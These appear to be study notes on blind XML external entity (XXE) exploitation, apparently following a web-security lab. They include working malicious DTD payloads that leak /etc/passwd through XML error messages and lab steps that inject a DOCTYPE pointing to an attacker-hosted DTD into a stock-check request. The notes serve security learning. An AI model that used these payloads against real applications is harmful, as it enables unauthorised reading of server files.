 ### Exploiting blind XXE to retrieve data via error messages
An alternative approach to exploiting blind XXE is to:
- trigger an XML parsing error 
- where the error message contains the sensitive data that you wish to retrieve

You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval; 
%error;
```
This DTD carries out the following steps:
- Defines an XML param entity called `file` -->   containing the contents of the `/etc/passwd`
- Defines an XML param entity called `eval` -->     containing a dynamic declaration of 
                                         another XML parameter entity called  `error`. 
- The `error` entity -->   will be evaluated by loading a nonexistent file 
                    whose name contains the value of the `file` entity.
- Uses the `eval` entity:
	- which causes the dynamic declaration of the `error` entity to be performed.
- Uses the `error` entity:
	- so that its value is evaluated by attempting to load the nonexistent file
	- resulting in an error message containing the name of the nonexistent file
	- which is the contents of the `/etc/passwd` file
=>
- Click "Go to exploit server" and save the following malicious DTD file on your server:
  `<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> %eval; %exfil;`
- When imported
	- this page will read the contents of `/etc/passwd` into the `file` entity
	- then try to use that entity in a file path.

- Click "View exploit" and take a note of the URL for your malicious DTD.
- You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. 
- Visit a product page, click "Check stock", and intercept the resulting POST request
- Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
  `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`
- You should see an error message containing the contents of the `/etc/passwd` file

### Exploiting blind XXE by repurposing a local DTD
The preceding technique:
- works fine with an external DTD
- but it won't work with an internal DTD that is fully specified within the `DOCTYPE` elem.
This is because:
- the technique involves using an XML parameter entity 
- within the definition of another parameter entity
=>
Per the XML specification this is permitted:
- in external DTDs 
- but not in internal DTDs
